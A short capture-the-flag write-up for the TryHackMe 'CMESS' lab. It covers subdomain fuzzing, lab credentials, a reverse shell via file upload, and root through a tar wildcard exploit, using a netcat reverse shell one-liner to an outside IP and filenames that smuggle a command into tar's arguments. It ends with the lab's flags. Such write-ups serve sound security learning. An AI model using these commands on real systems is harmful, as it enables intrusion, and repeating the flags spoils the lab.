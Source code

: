 # CMESS

## BASIC INFO
```
export IP=10.10.176.5

open port:
	22
	80

```

Looking at the hint for the first challenge, it says something about fuzzing subdomains. So we use wfuzz for fuzzing subdomains.
```
wfuzz -c -f subdomains.txt -w /opt/exploit/seclists/subdomains-5000.txt -u "http://cmess.thm" -H "Host: FUZZ.cmess.thm" --hw 290
```

Running the commands above we found a `dev.cmess.thm` subdomains. On that domain we acquire the username and password for login.

Navigate to $IP/admin
```
andre
KPFTN_f2yxe%
```

Once we're in as admin, let's try to upload file and get a reverse shell.

Now we're in as www-data. Go to `/opt/` and we can see a `.password.bak`
```
andre
UQfsdCB7aAP6
```

Switch to another user and see what we can do. There's a backup directory in his home and it says everything here will be backup. Maybe tar wildcard exploit?

```
echo "mkfifo /tmp/lhennp; nc 10.11.7.208 9001 0</tmp/lhennp | /bin/sh >/tmp/lhennp 2>&1; rm /tmp/lhennp" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
tar cf archive.tar *
```

Then we set up a listener on our machine and wait for root shell.

> - **Compromise this machine and obtain user.txt**
>> thm{c529b5d5d6ab6b430b7eb1903b2b5e1b}

> - **Escalate your privileges and obtain root.txt**
>> thm{9f85b7fdeb2cf96985bf5761a93546a2}